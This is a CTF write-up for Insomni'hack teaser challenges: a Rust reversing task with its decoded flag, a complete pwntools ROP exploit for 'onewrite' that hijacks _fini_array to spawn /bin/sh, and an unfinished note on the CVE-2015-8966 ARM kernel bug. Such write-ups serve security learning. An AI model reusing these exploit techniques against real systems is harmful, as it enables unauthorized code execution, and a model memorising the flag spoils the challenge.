 ## beginner reverse

It is a binary written in Rust. Initially I got stuck into the Rust stuff, which wasted me much time. The main function at `0x66A0` is long, but many of them are junk codes that do not help to solve the challenge. In fact, the core logic is this loop

```c
do
{
  if ( v15 == v22 )
    break;
  v25 = ((*((_DWORD *)v30 + v23) >> 2) ^ 0xA) == *(_DWORD *)&v15[4 * v23];
  // if we set a breakpoint here, v15 is the input but is unsigned extended to DWORD array
  ++v23;
  v24 += v25;
  v22 -= 4;
}
```

Here it compares the input with something, which is initialized here

```c
*v0 = xmmword_51000;
v0[1] = xmmword_51010;
v0[2] = xmmword_51020;
v0[3] = xmmword_51030;
v0[4] = xmmword_51040;
v0[5] = xmmword_51050;
v0[6] = xmmword_51060;
v0[7] = xmmword_51070;
*((_QWORD *)v0 + 16) = 0x1DE000001E2LL;
```

And it is obvious that the transformation is `(data[i] >> 2) ^ 0xA`, where `data` is an `uint32_t` array.

Thus, we can decrypt the flag using IDA Python

```python
Python>flag = ""
Python>for p in range(0x51000, 0x51080, 4) + range(0x6722, 0x672a, 4):
Python>  flag += chr((Dword(p) >> 2) ^0xA)
Python>
Python>flag
INS{y0ur_a_r3a1_h4rdc0r3_r3v3rs3r}
```

## onewrite

The binary can leak the stack address or PIE address of the program, then an arbitrary 8-byte write is performed, then the program exits. The program was statically linked, so there is no `libc`. Also since the program has not used `execve`, so this function is not provided. Our only way is to use `ret2syscall` by ROP. So we need to leak the 2 addresses without quiting first. The way to not quit after leaking is to rewrite return address in stack. For example, in function `main`,

`do_leak` is called.

```c
.text:00007FFFF7D52B04                 call    do_leak
.text:00007FFFF7D52B09                 nop
```

And the value `0x00007FFFF7D52B09` is stored as the return address. (value might change if ASLR is enabled)

If we rewrite the least significant byte `0x09` to `0x04`, we can execute `do_leak` again after `retn`. In this way we can leak both `stack` and `pie`, and still return to the function `do_leak`.

Then here is the difficult part. Since we can only control `0xf` bytes in stack using `read` in `read_int_3`, we cannot easily construct a ROP chain that allows `ret2syscall`. Initially I decided to rewrite the return address to the start of `do_leak` instead of `call stack` in `main` function, in this way we can "shift" the stack down by 8 bytes each time. In the meanwhile, we can gradually construct a ROP chain using `read` in `read_int_3`, with 8 bytes each time.  But this failed to work because `puts` function will overwrite the data that I have putted using `read_int_3` in the last `do_write`.

Then, I found a permanent way to always restart the program: hook the `_fini_array` function table, the functions inside which will be called when `exit` function is called, and the `exit` function will be called after `main` function returns. Thus, If we can change the one of the functions into `_start`, can we alway restart the program after it exits? Unfortunately no. It seems that when the `__libc_start_main` is called second time, a segmentation fault will be created in subroutine `dl_relocate_static_pie`.

Well, if we cannot return to `_start` to restart everything, why not hook `_fini_array` into function like `do_overwrite`? Actually this turns out to be the correct(but not necessarily intended?) method. However, the `exit` function will not be called after the subroutine function returns, so we cannot restart again directly. Luckily, there are 2 entries in `_fini_array`, which will be called in the reverse order. If we can change both of the 2 entries to `do_overwrite`, we can use the first one to rewrite return address to `__libc_csu_fini`(The function that calls the functions in the `_fini_array`) and use the second one to construct ROP, so after then we can return to `__libc_csu_fini` again and do the same thing next time.

I chose to construct ROP below the current `rsp` because there are many gadgets like `add rsp,xxx; ret`. Finally, I used an `add rsp, 0xd0; pop xxx; ret` to pivot the `rsp` onto ROP.

exploit

```python
from pwn import *

g_local=True
context.log_level='debug'
p = ELF("./onewrite")
if g_local:
	sh = process('./onewrite')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("onewrite.teaser.insomnihack.ch", 1337)

def leak(cmd):
	sh.recvuntil(" > ")
	sh.send(cmd)
	sh.recvuntil("0x")
	ret = int(sh.recvuntil("\n"), 16)
	return ret

def fill_stack(cmd):
	sh.recvuntil(" > ")
	sh.send(cmd)
	sh.recvuntil("Nope\n")

def write(addr, data):
	sh.recvuntil("address : ")
	sh.send(str(addr))
	sh.recvuntil("data : ")
	sh.send(data)

stack_addr = leak("1\x00")
write(stack_addr + 0x18, p8(0x04)) # b09->b04
prog_addr = leak("2\x00") - p.symbols["do_leak"]
write(stack_addr + 0x18, p8(0x04)) # b09->b04
print hex(stack_addr), hex(prog_addr)

fini_arr = prog_addr + p.symbols["__do_global_dtors_aux_fini_array_entry"]
do_overwrite = p64(prog_addr + p.symbols["do_overwrite"])
csu_fini = p64(prog_addr + p.symbols["__libc_csu_fini"])
fill_stack("nop")

init_ret = stack_addr - 72

write(fini_arr + 8, do_overwrite) #write 2nd entry of fini_arr
write(fini_arr, do_overwrite) #write 1st entry of fini_arr
write(init_ret, csu_fini) #write return address to csu_fini

init_ret += 8

def write_qword(addr, val):
	global init_ret
	write(init_ret, csu_fini)
	init_ret += 8
	write(addr, p64(val))

pop_rdi = p64(prog_addr + 0x84fa)
pop_rsi = p64(prog_addr + 0xd9f2)
pop_rdx = p64(prog_addr + 0x484c5)
pop_rax = p64(prog_addr + 0x460ac)
syscall = p64(prog_addr + 0x4610e)
bin_sh_buf = prog_addr + 0x2b4500

rop = pop_rdi
rop += p64(bin_sh_buf)
rop += pop_rsi
rop += p64(0)
rop += pop_rdx
rop += p64(0)
rop += pop_rax
rop += p64(59)
rop += syscall

write_qword(bin_sh_buf, u64("/bin/sh\x00"))

for i in xrange(0, len(rop), 8):
	write_qword(init_ret + 0x108, u64(rop[i:i+8]))
raw_input()
write(stack_addr - 16, p64(prog_addr + 0x106f3)) # add rsp,0xd8 ; ret

sh.interactive()

# init_ret = stack_addr + 0x18
# for i in xrange(0, 0x100, 8):
# 	fill_stack('A' * 15)
# 	write(init_ret + i, p64(prog_addr + p.symbols["do_leak"]))
```

## 1118daysober

Searching for `CVE-2015-8966`, we can find the patch for this vulnerability [here](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=76cc404bfdc0d419c720de4daaf2584542734f42). So this is a 32-bit ARM Linux kernel privilege escalation challenge. A `qemu` environment is given. If you want to learn more about kernel exploitation environment configuration, you can read it [here](https://mem2019.github.io/jekyll/update/2019/01/11/Linux-Kernel-Pwn-Basics.html); the only difference is that this article is about `x86-64` Linux kernel exploitation. After reading and comparing the codes before patch and codes after patch, we can find the only difference: for case `F_OFD_GETLK`,`F_OFD_SETLK` and `F_OFD_SETLKW`, the `fs` is not set back after calling `set_fs(KERNEL_DS)`. So what does this function do? What I've found is this

> The original role of `set_fs()` was to set the `x86` processor's `FS` segment register which, in the early days, was used to control the range of virtual addresses that could be accessed by unprivileged code. The kernel has, of course, long since stopped using `x86` segments this way. In current kernels, `set_fs()` works by setting a global variable called `addr_limit`, but the intended functionality is the same: unprivileged code is only allowed to dereference addresses that are below `addr_limit`. The kernel's `access_ok()` function, used to validate user-space accesses throughout the kernel, is a simple check against `addr_limit`, with the rest of the protection being handled by the processor's memory-management unit. 
>
> [https://lwn.net/Articles/722267/](https://lwn.net/Articles/722267/)

What it means is that if `set_fs(KERNEL_DS)` is called and not set back, we can use `read` and `write` to access kernel memory.

Then I tried to use `fcntl` to trigger the vulnerability, but it fails and the breakpoint on `sys_oabi_fcntl64` does not work. Then I found `fcntl` and `fcntl64` are 2 different `syscall`.

![1548009270898](5C1548009270898.png)

But after checking the binary, the `syscall number` is indeed `0xdd`, which got me confused.

Finally, I found the way to trigger the vulnerability [here](https://bbs.pediy.com/thread-214585.htm)\(content in Chinese\). After then, we can use `read` and `write` to access the kernel memory. But note, we cannot use direct access since that is handled by `MMU`. Then we can use//todo